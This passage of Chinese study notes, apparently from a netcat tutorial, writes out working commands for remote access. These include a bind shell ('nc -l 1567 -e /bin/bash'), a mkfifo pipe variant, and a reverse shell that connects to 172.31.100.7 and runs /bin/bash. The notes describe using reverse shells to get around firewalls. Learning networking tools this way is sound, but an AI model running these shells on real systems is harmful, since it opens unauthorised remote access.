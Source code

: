 > 我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。
> 假设你的netcat支持 -c -e 参数(默认 netcat)
> Server
> ```bash
> # nc -l 1567 -e /bin/bash -i
> ```

> Client
> ```bash
> # nc 172.31.100.7 1567
> ```
> 这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

> 假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
> Server
> ```bash
> # mkfifo /tmp/tmp_fifo
> # cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
> ```
> 这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。
> 说明：
> 从网络收到的输入写到fifo文件中
> cat 命令读取fifo文件并且其内容发送给sh命令
> sh命令进程受到输入并把它写回到netcat。
> netcat 通过网络发送输出到client
> 至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

> 在客户端仅仅简单连接到服务器
> Client
> ```bash
> # nc -n 172.31.100.7 1567
> ```
> 你会得到一个shell提示符在客户端

> #### 反向shell

> 反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。
> 服务端
> ```bash
> # nc -l 1567
> ```

> 在客户端，简单地告诉netcat在连接完成后，执行shell。
> Client
> ```bash
> # nc 172.31.100.7 1567 -e /bin/bash
> ```

> 现在，什么是反向shell的特别之处呢 
> 反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 
> 有点不太懂这里 囧

> #### 指定源端口

